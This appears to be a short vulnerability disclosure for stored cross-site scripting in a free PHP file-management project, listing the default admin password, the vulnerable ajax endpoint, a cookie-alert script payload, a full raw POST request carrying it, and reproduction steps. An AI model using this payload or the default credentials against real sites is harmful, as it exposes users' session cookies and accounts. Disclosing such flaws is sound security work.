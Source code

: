 # File-Management-System v1.0 by itsourcecode.com has Cross-site Scripting (XSS)

The password for the backend login account is: admin/1

vendors: https://itsourcecode.com/free-projects/php-project/file-management-system-in-php-with-source-code/

Vulnerability File:  /filesystem/ajax.php

Vulnerability location:  /filesystem/ajax.php?action=save_user HTTP/1.1

[+] Payload: <script>alert(document.cookie)</script>

Tested on Windows 10, phpStudy

There is an example with alert:

```
POST /filesystem/ajax.php?action=save_user HTTP/1.1
Host: 10.12.180.79
Content-Length: 92
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.41
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.12.180.79
Referer: http://10.12.180.79/filesystem/index.php?page=users
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=d4me9tekbcuef2k8k1qupv9i0t
Connection: close

id=1&name=%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E&username=admin&password=1&type=1
```

Click Users on the left

![image](https://user-images.githubusercontent.com/56795018/221362762-209a0b00-e739-4ccb-a472-b0e2c3725d24.png)

then click the edit button as shown in the screenshoot

![image](https://user-images.githubusercontent.com/56795018/221362814-04e39d1f-5508-41e3-bdd6-0f77e7615e99.png)

input a XSS script in Name input,and click save

![image](https://user-images.githubusercontent.com/56795018/221362893-13df6367-a858-46b9-b495-5cf5362fee30.png)

soon you will see an alert showing your cookie

![image](https://user-images.githubusercontent.com/56795018/221362975-f5621ee1-fea1-4d25-bf6f-b3257c38f4f9.png)
